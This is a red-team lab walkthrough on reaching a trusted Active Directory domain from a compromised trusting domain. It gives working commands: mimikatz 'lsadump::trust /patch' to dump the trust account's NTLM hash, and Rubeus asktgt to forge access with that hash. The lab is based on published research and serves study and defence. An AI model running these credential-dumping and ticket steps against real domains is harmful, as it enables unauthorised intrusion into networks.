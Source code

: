 # Abusing Trust Account$: Accessing Resources on a Trusted Domain from a Trusting Domain

This is a quick lab to familiarize with a technique that allows accessing resources on a trusted domain from a fully compromised (Domain admin privileges achieved) trusting domain, by recovering the trusting `account$` (that's present on the trusted domain) password hash.

This lab is based on the great research here [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted), go check it out for more details and detection / prevention ideas.

## Overview

The environment for this lab is as follows:

| Resource               | Type              |                                                                                      |
| ---------------------- | ----------------- | ------------------------------------------------------------------------------------ |
| first-dc.first.local   | Domain Controller | Domain controller in the first.local domain                                          |
| second-dc.second.local | Domain Controller | Domain controller in the second.local domain                                         |
| first.local            | Domain            | This domain does not trust second.local domain, but second.local trusts this domain. |
| second.local           | Domain            | This domain trusts first.local domain, but first.local does not trust this domain.   |

In short, there is a one way trust relationship between `first.local` and `second.local`, where `first.local` does not trust `second.local`, but `second.local` trusts `first.local`. Or simply put in other words, it's possible to access resources from `first.local` on `second.local`, but not the other way around.

The technique in this lab, however, shows that it's still possible to access resources from `second.local` on `first.local` domain if `second.local` domain is compromised and domain admin privileges are obtained.&#x20;

This technique is possible, because once a trust relationship between domains is established, a trust account for the trusting domain is created in the trusted domain and it's possible to compromise that account's password hash, which enables an attacker to authenticate to the trusted domain with the trust account.

In our lab, considering that `first.local` is a trusted domain trusted by the trusting domain `second.local`, the trust account `first.local\second$` (user account `second$` in the domain `first.local`) will be created.&#x20;

`first.local\second$` is the trust account we want to and CAN compromise from the `second.local domain`, assuming we have domain admin privileges there.

Visually, this looks like something like this:

![Technique / attack diagram based on the one seen in https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](<../../.gitbook/assets/image (1088).png>)

## Checks

Let's check some of the things we touched on in the overview.&#x20;

Confirm the trust relationships between domains:

```
# on first-dc.first.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1092).png>)

```
# on second-dc.second.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1089).png>)

Confirm that there's a trust account `second$` on `first.local` domain:

```
# on first-dc.first.local
get-aduser 'second$'
```

![](<../../.gitbook/assets/image (1094).png>)

Confirm that we can enumerate resources on the trusting domain `second.local` from `first.local`:

```
# from first-dc.first.local
get-aduser -Filter * -Server second.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1085).png>)

Confirm that we cannot (just yet, but this is soon to change) enumerate resources on the trusted domain `first.local` from the trusting domain :

```
# on second-dc.second.local
get-aduser -Filter * -Server first.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1091).png>)

## Compromising Trust Account first.local\second$

As mentioned earlier, the main crux of the technique is that we're able to compromise the trust account `first.local\second$` if we have domain admin privileges on `second.local`.

To compromise the `first.local\second$` and reveal its password hash, we can use mimikatz like so:

```
# on second-dc.second.local
mimikatz.exe "lsadump::trust /patch" "exit"
```

![](<../../.gitbook/assets/image (1093).png>)

Note the RC4 hash in `[out] first.local` -> `second.local` line - this is the NTLM hash for `first.local\second$` trust account, capture it.

## Requesting TGT for first.local\second$

Once we have the NTLM hash for `first.local\second$`, we can request its TGT from `first.local`:

```
#on second-dc.second.local
Rubeus.exe asktgt /user:second$ /domain:first.local /rc4:24b07e26ca7affb4ac061f6920cb57ec /nowrap /ptt
```

![](<../../.gitbook/assets/image (1095).png>)

## Accessing Resources on First.local from Second.local

At this point on `second-dc.second.local`, we have a TGT for `first.local\second$` committed to memory and we can now start enumerating resources on `first.local` - and this concludes the technique, showing that it's possible to access resources on a trusted domain (as a low privileged user), given the trusting domain is compromised:

```
Get-ADUser roast.user -Server first.local -Properties * | select samaccountname, serviceprincipalnames
```

![](<../../.gitbook/assets/image (1090).png>)

## References

{% embed url="https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted" %}
